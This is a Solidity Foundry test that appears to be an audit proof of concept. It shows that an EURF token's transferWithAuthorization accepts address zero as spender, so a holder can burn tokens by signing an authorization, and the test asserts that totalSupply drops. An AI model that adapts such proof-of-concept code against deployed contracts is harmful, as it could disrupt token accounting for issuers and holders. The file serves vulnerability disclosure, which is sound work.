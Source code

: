 ```solidity

import {TestEURFToken} from "test/TestEURFToken.t.sol";

contract TestMetaTx is TestEURFToken {
    function setUp() public override {
        super.setUp();
    }

    function test_poc_user_can_burn_token() public {
        address holder = vm.addr(0x1);

        // 1. Mint 100 EURF tokens to the holder
        vm.prank(masterMinter);
        proxyEURFToken.mint(holder, 100e6);
        assertEq(proxyEURFToken.balanceOf(holder), 100e6);
        
        // 2. Check totalSupply
        uint256 beforeTotalSupply = proxyEURFToken.totalSupply();
        console.log("proxyEURFToken.totalSupply(): ", proxyEURFToken.totalSupply());
        // proxyEURFToken.totalSupply():  400000000

        // 3. holder transfer 10 EURF tokens to address(0x0)
        // Since there is no check on the spender, it is possible to send the token with 0x0, resulting in the token being burned
        uint256 holderPrivateKey = 0x1;
        address spender = address(0x0);
        uint256 value = 10e6;
        uint256 nonce = proxyEURFToken.nonce(holder);
        uint256 deadline = block.timestamp + 1000;

        bytes32 hash = keccak256(
            abi.encodePacked(
                hex"1901",
                proxyEURFToken.DOMAIN_SEPARATOR(),
                keccak256(
                    abi.encode(
                        keccak256(
                            "TransferWithAuthorization(address owner,address spender,uint256 value,uint256 nonce,uint256 deadline)"
                        ),
                        holder,
                        spender,
                        value,
                        nonce,
                        deadline
                    )
                )
            )
        );

        (uint8 v, bytes32 r, bytes32 s) = vm.sign(holderPrivateKey, hash);
        proxyEURFToken.transferWithAuthorization(holder, spender, value, deadline, v, r, s);

        // 4. totalSupply will decrease.
        assertLt(proxyEURFToken.totalSupply(), beforeTotalSupply);
        console.log("proxyEURFToken.totalSupply(): ", proxyEURFToken.totalSupply());
        // proxyEURFToken.totalSupply():  390000000

    }
}
```
